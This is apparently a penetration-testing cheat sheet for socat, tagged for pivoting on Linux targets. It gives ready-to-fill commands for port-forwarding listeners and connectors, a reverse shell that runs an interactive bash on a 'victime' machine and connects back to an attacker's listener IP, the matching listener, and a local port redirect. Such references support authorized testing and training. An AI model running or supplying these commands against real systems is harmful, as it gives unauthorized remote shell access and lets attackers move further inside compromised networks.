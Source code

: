 # socat

% socat

## socat port forwarding listener (on local machine)
#plateform/linux  #target/remote  #cat/PIVOT 
```
./socat TCP-LISTEN:<port_listener|4444>,fork,reuseaddr TCP-LISTEN:<port_to_forward>
```

## socat port forwarding connect (on remote machine)
#plateform/linux  #target/remote  #cat/PIVOT 
```
./socat TCP:<connect_ip>:<connect_port|4444> TCP:127.0.0.1:<port_to_forward>
```

## socat reverse shell (remote victime)
#plateform/linux  #target/remote  #cat/PIVOT 
```
./socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<listner_ip>:<listner_port|4444>
```

## socat reverse shell listener (local)
#plateform/linux  #target/remote  #cat/PIVOT 
```
socat file:`tty`,raw,echo=0 tcp-listen:<listner_port|4444>
```

## local port redirection
```bash
sudo socat TCP-LISTEN:<listen_port>,fork TCP:<redirection_ip|localhost>:<redirection_port>
```
